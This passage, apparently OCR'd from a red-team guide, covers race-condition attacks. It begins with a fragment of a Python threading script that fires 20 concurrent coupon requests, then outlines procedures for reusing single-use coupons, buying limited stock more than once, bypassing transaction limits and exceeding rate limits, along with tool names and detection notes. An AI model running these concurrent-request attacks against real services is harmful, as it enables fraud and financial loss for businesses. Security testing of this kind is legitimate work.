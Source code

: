 ```bash
                           data={'coupon': 'DISCOUNT50'})
    print(f"Status: {response.status_code}")

# Launch concurrent attacks
threads = []
for i in range(20):
    thread = threading.Thread(target=exploit_race_condition)
    threads.append(thread)
    thread.start()

for thread in threads:
    thread.join()
🛠️ RED TEAM OPERATIONAL PROCEDURES
RECONNAISSANCE PHASE
Business logic analysis for limited resources

Identification of shared data structures

API endpoint mapping for critical operations

Database transaction pattern analysis

EXPLOITATION PHASE
Coupon/Discount Systems

bash
# Objective: Apply single-use coupon multiple times
# Technique: Concurrent request flooding
# Impact: Financial loss through illegitimate discounts
Inventory Management

bash
# Objective: Purchase limited stock multiple times
# Technique: Simultaneous checkout requests
# Impact: Operational disruption and order fulfillment issues
Financial Systems

bash
# Objective: Bypass transaction limits
# Technique: Parallel transaction requests
# Impact: Financial policy violation and potential fraud
Rate Limiting Systems

bash
# Objective: Exceed API rate limits
# Technique: Distributed concurrent requests
# Impact: Service degradation and resource exhaustion
TOOLS & TECHNIQUES
bash
# Concurrent Attack Tools
Burp Suite Turbo Intruder
Python threading & asyncio
RacePWN
Custom bash scripts with curl

# Detection Methods
Response analysis for limit violations
Database state monitoring
Business logic verification
📈 RISK ASSESSMENT
Impact: HIGH (Financial loss, operational disruption)

Detection Difficulty: Medium (Requires concurrent monitoring)
```